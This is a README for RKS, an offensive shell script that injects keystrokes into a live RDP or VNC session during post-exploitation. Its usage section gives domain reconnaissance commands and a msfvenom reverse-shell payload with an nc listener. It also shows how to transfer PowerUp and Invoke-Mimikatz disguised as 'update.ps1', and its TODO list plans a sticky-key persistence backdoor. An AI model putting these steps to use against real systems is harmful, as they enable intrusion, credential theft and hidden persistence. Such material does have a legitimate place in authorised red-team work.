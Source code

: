 # Description

## Introduction

A script to automate keystrokes through an active remote desktop session that assists offensive operators in combination with living off the land techniques.

## About RKS (RemoteKeyStrokes)

All credits goes to [nopernik](https://github.com/nopernik) for making it possible so I took it upon myself to improve it. I wanted something that helps during the post exploitation phase when executing commands through a remote desktop.

## Help Menu

```
$ ./rks.sh -h
Usage: ./rks.sh [-c <command | cmdfile> | -i <input_file> -o <output_file> -p <platform>] [-m <method>] [-w <windowname>] [-h]
Options:
    -c, --command <command | cmdfile>       Specify a command or a file containing to execute
    -i, --input <input_file>                Specify the local input file to transfer
    -o, --output <output_file>              Specify the remote output file to transfer
    -m, --method <method>                   Specify the file transfer or execution method
                                            (For file transfer "base64" is set by default if
                                            not specified. For execution method "none" is set
                                            by default if not specified)

    -p, --platform <operating_system>       Specify the operating system (windows is set by
                                            default if not specified)

    -w, --windowname <name>                     Specify the window name for graphical remote
                                            program (freerdp is set by default if not
                                            specified)

    -h, --help                              Display this help message
```

## Usage

### Internal Reconnaissance

- When running in command prompt

```
$ cat recon_cmds.txt
whoami /all
net user
net localgroup Administrators
net user /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
net group "Domain Computers" /domain

$ ./rks.h -c recon_cmds.txt
```

### Execute Implant

- Execute an implant while reading the contents of the payload in powershell.

```
$ msfvenom -p windowx/x64/shell_reverse_tcp lhost=<IP> lport=4444 -f psh -o implant.ps1

$ ./rks.sh -c implant.ps1

$ nc -lvnp 4444
```

### File Transfer

- Transfer a file remotely when pivoting in a isolated network. If you want to specify the remote path on windows be sure to include quotes.

```
$ ./rks.sh -i /usr/share/powersploit/Privesc/PowerUp.ps1 -o script.ps1

$ ./rks.sh -i /usr/share/powersploit/Exfiltration/Invoke-Mimikatz.ps1 -o "C:\Windows\Temp\update.ps1" -m base64
```

### Specify Grapical Remote Software

- If you're targeting VNC network protocols you can specify the window name with `tightvnc`.

`$ ./rks.sh -i implant.ps1 -w tightvnc`

- If you're targeting legacy operating systems with older RDP authentication specify the window name with `rdesktop`.

`$ ./rks.sh -i implant.bat -w rdesktop`

## TODO and Help Wanted

- Implement Base64 file transfer

- Implement Bin2Hex file transfer

- Implement to read shellcode input and run C# implant and powershell runspace

- Implement a sticky key persistence backdoor when pressing SHIFT 5 times

## References

- [Video: sethc.exe Backdoor CMD Payload delivery (USB Rubber Ducky style)](https://www.youtube.com/watch?v=8YFEujJUxws)

- [Original Script](https://github.com/nopernik/mytools/blob/master/rdp-cmd-delivery.sh)

## Credits

- [nopernik](https://github.com/nopernik)
